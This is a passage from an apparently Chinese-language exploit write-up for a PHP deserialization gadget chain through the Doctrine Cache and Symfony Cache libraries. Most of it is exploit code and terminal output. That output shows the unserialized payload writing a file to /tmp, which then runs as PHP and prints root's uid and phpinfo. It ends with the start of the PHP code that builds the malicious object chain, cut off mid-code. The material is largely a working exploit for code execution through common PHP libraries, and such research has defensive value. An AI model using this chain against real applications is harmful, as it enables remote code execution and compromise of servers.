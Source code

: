 ```plain
echo serialize($obj);
}
```

如下面的 bash 代码片段所示，在反序列化 payload 之后，在服务器上生成 `aaa.mocksess` 文件，已经成功地在受控路径上创建了一个文件，因此将其作为 PHP 代码执行，成功地触发了注入的代码。

```plain
$ php unserialize.php 

Fatal error: Uncaught TypeError: Doctrine\Common\Cache\Psr6\CacheAdapter::commit(): Return value must be of type bool, null returned in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
Stack trace:
#0 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/poc/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 235
$ ls -l /tmp/aaa.mocksess 
-rw-r--r-- 1 root root 51 Feb 13 15:05 /tmp/aaa.mocksess
$ php /tmp/aaa.mocksess 
a:1:{i:0;s:33:"uid=0(root) gid=0(root) groups=0(root)
phpinfo()
PHP Version => 8.1.15
```

## 第三步，执行文件

现在演示包含 payload，下面的代码将允许我们达到之前详细介绍的 `PhpArrayAdapter` `initialize` 函数。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
    {
    }
}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;

$obj = new CacheAdapter();
$obj->cache = new PhpArrayAdapter();

```